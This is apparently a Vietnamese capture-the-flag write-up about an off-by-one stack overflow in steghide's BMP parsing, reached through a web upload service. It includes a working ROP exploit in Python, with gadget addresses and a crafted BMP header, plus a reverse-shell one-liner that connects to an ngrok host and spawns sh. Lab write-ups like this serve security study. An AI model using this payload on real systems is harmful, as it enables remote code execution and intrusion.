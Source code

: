 **1. Tìm lỗi**
  - Đây là chall dùng 1 tool thực tế có tên là `steghide` nên việc tìm lỗi thông qua `source` rất khó. Tuy nhiên chall này đã cung cấp cho ta 2 file `binary` trong đó có một file có lỗi và một file đã vá, ta chỉ cần chỉ ra điểm khác nhau là có thể dễ dàng tìm thấy được lỗi.
  - A Hy đã chỉ mình dùng tool `Bindiff` để so sánh, và dễ dàng chỉ ra điểm khác nhau ở hàm `BmpFile::readdata()`
  - ![image](https://user-images.githubusercontent.com/113702087/230003701-123b757e-92a1-4b1b-a401-6d46e03ac9e7.png)
  - Khi độ chính xác của hàm này ở 2 file là `99%`.
  - ![image](https://user-images.githubusercontent.com/113702087/230004061-c3aa1828-cf77-48d7-922e-fe84e25583e8.png)
  - Dễ dàng thấy điểm khác nhau tại vòng `for` khi điều kiện lặp ở file lỗi là `<= height` trong khi ở file vá là `< height`. Điều này có thể dẫn đến các lỗi như `overflow`, `out of bound`, ...
  - ![image](https://user-images.githubusercontent.com/113702087/230006389-e6491c26-0bc8-490d-971b-7c86ec58d04c.png)
  - Trong hàm này nó sẽ đọc dữ liệu từ `file` lượng byte tối đa đọc được phụ thuộc vào `height` và `linelength`, tổng lượng byte đọc được sẽ lưu vào `numread` tuy nhiên do `<=` nên `numread` sẽ vượt quá `height*linelength`. Mình sẽ dùng `x` của `ida` để xem `numread` được sử dụng ở đâu.
  - Cho ai thắc mắc thì `height` và `linelength` là chiều rộng và chiều dài của file và nó được đọc từ trường `header` của file thông qua hàm `BmpFile::readheaders()` vậy nên thêm bao nhiêu dữ liệu vào thì giá trị của chúng luôn không đổi.
  - ![image](https://user-images.githubusercontent.com/113702087/230009548-865d05a9-9daa-4e8b-9016-78001dc91068.png)
  - ![image](https://user-images.githubusercontent.com/113702087/230009377-c6ed3fd2-5264-40b9-a966-305c34faf26f.png)
  - Sau khi `readdata` nó sẽ thực hiện `getdata` nơi sẽ gọi `getheaders`. Trong `getheaders` nó thực hiện cấp phát bằng `alloca` trên stack bằng `height*linelength` nhưng nó lại dùng `memcpy(&v3, a1, (unsigned int)numread)` để copy dữ liệu đọc được từ file vào stack với size là `numread`, như đã nói ở trên `numread` có thể > `height*linelength` do đó tại đây nó sẽ gây lỗi `overflow`.
  - Về phía `server` là một `website`
  - ![image](https://user-images.githubusercontent.com/113702087/230004814-79b696e8-b4fb-479b-af81-674edb6c0d2f.png)
  - nó nhận đầu vào là một `file` và `pass` của file này rồi thực thi câu lệnh `subprocess.run(['steghide', 'extract', '-sf', stegfile_name, '-p', request.form['passphrase'], '-xf', outfile_name], check=True, timeout=60)`
  - Có vẻ như `BmpFile::readdata()` sẽ được thực hiện khi ta `extract` một file `bmp` nên ta sẽ dùng `bmp` để gửi `payload`.

**2. Ý tưởng**
  - ![image](https://user-images.githubusercontent.com/113702087/230013813-388a983e-9275-4395-8656-8989c86eae87.png)
  - Ta có thể `overwrite` saverip với 126 byte khá là ít, tuy nhiên đủ để ta tạo shell nhưng việc tạo shell dường như là vô nghĩa khi nó không có `netcat`. Vậy nên ta sẽ chuyển sang hướng `reverse shell` để tạo `shell` về máy mình. Đê làm được điều này ta cần rất nhiều gadget do đó ta sẽ thay đổi rsp thông qua rbp với một địa chỉ ghi được đã biết.
  - Do không thể sử dụng các hàm input vì không có `netcat` nên ta sẽ sử dụng input có sẵn từ file để nạp `gadget` vào một địa chỉ trên binary và trỏ rsp vào đây. Ta có thể lợi dụng `memcpy` lần nữa để đưa các `payload` từ file vào địa chỉ mong muốn do ta có thể thay đổi `rdi` thông qua `pop rdi ; ret`.
  - Trước khi `ret` các thanh ghi có giá trị như sau:
  - ![image](https://user-images.githubusercontent.com/113702087/230015037-8418ddf8-ae2e-4d3b-81f6-eaaa5f467e63.png)
  - Dường như sau khi `memcpy` thì `rsi` và `rdi` đã thay đổi chỉ còn lại `rdx`. Tuy nhiên `rdi` mới này lại cách `rsi` cũ `0x58` byte vậy nên có thể coi nó là `rsi` cũ, việc cần làm là chuyển `mov rsi, rdi ;  pop rdi ; ret ; memcpy` thì ta có thể thực hiện chuyển `payload` sang địa chỉ tùy ý. Nhưng gần như không có gadget nào thỏa mãn điều này. Các gadget control `rsi` dường như sẽ khiến chương trình `exit`.
  -  Sau một lúc suy ngẫm thì mình thấy được cái này.
  -  ![image](https://user-images.githubusercontent.com/113702087/230018211-eb4539b8-9a4f-4513-91c8-98d3258c69c4.png)
  -  ![image](https://user-images.githubusercontent.com/113702087/230018590-232045e1-e886-4384-a83b-e5b49b3125d2.png)
  - Một phần của hàm `getheaders()`, điều này có nghĩa là ta sẽ thay đổi được `[rbp+dest]` và `[rbp+src]`, ban đầu ta sẽ thay đổi `rbp` rồi đưa `rdi` vào `[rbp+src]`, như thế ta có thể copy `payload` vào địa chỉ tùy ý rồi.
  - ![image](https://user-images.githubusercontent.com/113702087/230021665-e1162f76-40f8-443a-97a2-40e31c4f0816.png)
  - Việc bây giờ ta chỉ tính `offset` và thực thi `reverse shell`
  - Mình sẽ chọn `python3 -c 'import os,pty,socket;s=socket.socket();s.connect((\"0.tcp.ap.ngrok.io\",13577));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn(\"sh\")'` để làm `reverse shell`, rồi thực thi `system(reverseshell)`

**3. Khai thác**
  ```
  pop_rax_rbx_rbp = 0x0000000000414d29
pop_rsi = 0x0000000000417f3e
pop_rdx = 0x000000000042cd0c
pop_rdi = 0x0000000000450e8b
add_irbp_ebx = 0x0000000000404a38
pop_rbp = 0x0000000000404a39
leave_ret = 0x000000000040a392
syscall = 0x00000000004066b3
addr = 0x48a930
movinrbp_rdi = 0x00000000004220e0
  ```
  - setup một số `gadget` có ích
  ```
  headerfile = b'BMzL\x02\x00\x00\x00\x00\x00>\x00\x00\x00(\x00\x00\x00\xd3\x05\x00\x00!\x03\x00\x00\x01\x00\x01\x00\x00\x00\x00\x00<L\x02\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xff\xff\xff\x00'
shellrv = f'python3 -c \x27import os,pty,socket;s=socket.socket();s.connect((\x22{ip}\x22,{port}));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn(\x22sh\x22)\x27\x00'
shell = headerfile + b'a'*(len(shellrv)-10 - 8)
  shell += flat(
    pop_rax_rbx_rbp+1, 0x13e10, exe.got['gettext'] + 0x3d,
    add_irbp_ebx,
    pop_rdi, 0x48abd4,
    exe.sym['gettext'],
    word_size=64, sign = True
)
  ```
  - Đầu tiên ta sẽ tạo một `headerfile` và `reverse_shell`, căn chỉnh thêm `offset` rồi đưa các `gadget` vào các `gadget` này sẽ được thực thi sau khi thay đổi được rsp
  - `gadget` trên sẽ thay đổi `gettext got` thành `system` và thực thi `reverse shell`
  ```
  shell += shellrv.encode()*29
shell = shell.ljust(0x24c71, b'\xff') + 0x3e*b'a'
  ```
  - Tiếp đến ta sẽ đưa `reverse shell` vào và bù thêm một phần để `overflow` đoạn `memcpy`.
  ```
  rop = flat(
    addr,
    movinrbp_rdi, addr + 8,
    pop_rdi, addr,
    movinrbp_rdi, addr + 0x20,
    pop_rdx, 0x6d0,
    0x41B355,
    pop_rbp, addr,
    leave_ret,
    word_size=64, sign = True
)

shell += rop
  ```
  - ROP này sẽ được chèn vào khi `overflow` nhằm thực hiện lại `memcpy` như đã nói ở trên và thay đổi `rsp`.

**4. Demo trên docker**
  - Mình test trên `docker` được nhưng `server` thì lỗi nên sẽ làm trên `docker`.
  - ![image](https://user-images.githubusercontent.com/113702087/230026857-978c0b29-a759-4c2b-a375-3aa14e069da8.png)
  - Ta tạo host thông qua `ngrok` và `listen` tại port `8080`. Rồi tạo file ảnh với `script` trên theo `ip` và `port`
  - Ta sẽ gửi file ảnh lên `web` và chờ kết quả
  - ![image](https://user-images.githubusercontent.com/113702087/230027418-d7f1184e-a457-4d42-97e4-ae59028f615f.png)
  - ![image](https://user-images.githubusercontent.com/113702087/230027932-bc1f95db-6601-45f8-b848-4a508c11b3ba.png)
  - Lưu ý `script` này chỉ sài với `ngrok` muốn sài `ip` với `port` khác phải tự custom
